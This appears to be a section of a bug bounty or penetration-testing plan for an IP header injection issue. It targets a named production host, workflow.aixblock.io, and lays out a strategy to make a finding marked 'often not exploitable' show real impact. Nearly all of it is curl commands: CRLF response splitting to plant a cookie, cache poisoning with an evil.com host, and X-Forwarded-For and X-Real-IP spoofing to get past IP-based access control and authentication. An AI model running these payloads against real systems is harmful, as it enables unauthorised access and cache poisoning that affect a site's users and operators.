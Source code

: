 #### **Issue #319: IP Header Injection**
**Current Status**: Header injection often not exploitable
**Enhancement Strategy**:

1. **Test for HTTP Response Splitting**
   ```bash
   # Test for HTTP response splitting
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1\r\nSet-Cookie: malicious=value"
   
   # Test with different line endings
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1\nSet-Cookie: malicious=value"
   ```

2. **Test for Cache Poisoning**
   ```bash
   # Test for cache poisoning
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: evil.com\r\nHost: evil.com"
   
   # Test with different cache headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: evil.com" \
     -H "X-Original-Host: evil.com"
   ```

3. **Test for Security Control Bypass**
   ```bash
   # Test for IP-based access control bypass
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 127.0.0.1" \
     -H "X-Real-IP: 127.0.0.1"
   
   # Test for admin IP spoofing
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: 192.168.1.1" \
     -H "X-Real-IP: 192.168.1.1"
   ```

4. **Test for Authentication Bypass**
   ```bash
   # Test for authentication bypass via IP headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: admin" \
     -H "X-Real-IP: admin"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: root" \
     -H "X-Real-IP: root"
   ```

5. **Demonstrate Clear Exploitation Impact**
   - Show successful HTTP response splitting
   - Demonstrate cache poisoning
   - Prove security control bypass
   - Show authentication bypass
